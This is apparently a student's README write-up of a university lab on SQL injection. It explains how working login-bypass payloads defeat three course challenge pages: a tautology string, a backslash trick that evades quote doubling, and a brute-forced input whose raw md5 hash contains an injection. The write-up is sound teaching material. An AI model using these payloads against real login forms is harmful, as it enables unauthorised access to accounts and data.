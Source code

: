 # SQL_Injection_Examples
This comes from Lab4 of Boston Universities CS558 Network Security Course taught by. Dr. Sharon Goldberg

#### Sources:
http://www.unixwiz.net/techtips/sql-injection.html
http://www.comsecglobal.com/FrameWork/Upload/SQL\_Smuggling.pdf
http://blog.kotowicz.net/2013/01/abusing-mysql-string-arithmetic-for.html
https://docs.python.org/2/library/md5.html
https://stackoverflow.com/questions/1557571/how-to-get-time-of-a-python-program-execution
https://stackoverflow.com/questions/3437059/does-python-have-a-string-contains-substring-method

#### Question 1.0 No protection:	
http://cs558web.bu.edu/sqlinject0/
Solution:</br>
username=victim\&password=hi\%27\%20OR\%20\%271\%27\%3D\%271
<br><br>
I used the following input for password:
<br><br>
hi' OR '1'='1
<br><br>
The reason this works is because the php code that checks this most likely looks like this
<br><br>
"Select * WHERE username='+usernam+' AND password='+password+';"	
<br><br>
by closing out hi with the ' it messes the parsing to 		
<br><br>
"Select * WHERE username='username' AND password='mom' OR '1'='1';"	
<br><br>
so now if password = false becase the 1=1 it will always return true so it returns the user as long as we know the username.

#### 1.1 single quote to two single quote:
http://cs558web.bu.edu/sqlinject1/
Solution:<br>
username=victim\&password=hi\%5C\%27\%20OR\%201\%3D1\%20$--$\%20
<br><br>
Injection used:
<br><br>
"hi\textbackslash' OR 1=1 $--$ "
<br><br>
the "$--$ " makes anything afterward a comment, also note there is a space at the end of that. We do \textbackslash' since it will turn into \textbackslash' ' so sql will escape the first \textbackslash'  but leave the 2nd quote free to still do this attack.

#### 1.2 with hashing:
Solution:
http://cs558web.bu.edu/sqlinject2/
<br>
username=victim\&password=6365540
<br><br>
takes about 14 seconds to compute, with script sql_1-2.py.
<br><br>
I quickly came to the conclusion that I would need to find an md5 hash that would output an sqlinjection in its binary raw format. But to compute this it could take years given that up to this point all my sql injections where of about 14 or characters and given my machine is a laptop.
<br><br>
First Thing I did was look for the shortest possible sql injection, and luckily I was able to find this blog post
<br><br>
http://blog.kotowicz.net/2013/01/abusing-mysql-string-arithmetic-for.html
<br><br>
it outlines how '-' will evaluate to 0 which in turn give our php code will execute to be the equivalent of 1=1, and I even went ahead and tested it on the sqlinjection0 site to see that it in fact works.
<br><br>
username=victim\&password=\%27-\%27
<br><br>
so now from here all I had to do was create a quick and dirty python program that would brute force search for a string that when hashed with md5 it's hash contained '-' and that should work.
<br><br>
My script took about 14 seconds to execute and returns:
<br><br>
Sql injection = 6365540 with hash= '-'De ????Jϥ2C Time taken:13.7294299603
<br><br>
so the password 6365540 works.
<br><br>
My script works by simply incrementing a number converting that into a string and hashing it it, checking to see if the hash contains '-'. with enough increments we find a collision. The reason I increment was to avoid having to deal with dictionaries and generating random words.
